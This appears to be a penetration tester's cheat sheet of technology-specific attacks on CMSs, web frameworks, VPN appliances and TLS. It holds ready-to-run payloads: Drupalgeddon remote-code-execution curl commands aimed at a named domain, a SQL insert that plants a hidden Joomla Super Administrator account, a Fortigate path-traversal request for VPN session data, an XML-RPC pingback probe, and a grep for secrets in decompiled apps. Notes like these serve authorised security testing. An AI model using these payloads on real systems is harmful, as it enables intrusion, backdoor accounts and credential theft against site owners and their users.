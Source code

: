# Techno Specific

## CMS

### `Tools`

```text
Nikto
CMSmap
WhatCMS
Wpseku
WPScan
droopescan
joomscan
```

### Wordpress

#### Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

#### XMLrpc

#### List methods

```text
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

if there is pingback, try :

```text
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

### Drupal

```text
drupal , intruder from 0 to 500 on /node/$

/imce

Druppalgeddon 2/3
```

#### POC1 drupal 8:

```text
  curl -k -i 'https://filalapat.fr/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

#### POC2 drupal 8:

```text
curl -k -i 'https://filalapat.fr/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

#### POC3 drupal 7

```text
 curl -k -s 'http://localhost/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

### Joomla

#### Joomla 1.5

```text
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```text
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

## Reactjs

Security Testers: Inject JavaScript and JSON wherever you can and see what happens. Developers: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

## Angularjs

#### check the bypassSecurityTrustX / innerHTML function

```text
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

## ckfinder

```text
ckfinder/ckfinder.html
```

## Git

```text
https://github.com/internetwache/GitTools/tree/master/Dumper
https://github.com/arthaud/git-dumper
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

## Stormshield

* TCP PORT 1300

[https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI\_Serverd\_Commands\_reference\_Guide\_v3/Introduction.htm](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)

Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0

## Fortigate

```text
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

## Dana

* [https://XXXX/dana-na/setup/psalinstall.cgi](https://XXXX/dana-na/setup/psalinstall.cgi)

## GPG decode

```text
gpg --decrypt Test.zip.gpg > test.zip ( popup password )
```

## SSL / TLS

* [testssh.sh](https://github.com/drwetter/testssl.sh)

#### check Heartbleed

```text
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

#### Openssl

```text
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

#### check lucky13

```text
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

## SSH 

#### check if 4096 key

```text
ssh-keygen -l -f key.pub
```

## `Android`

#### `Apktool`

```text
apktool d app_name.apk
```

#### Extract sensitive info

```text
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```




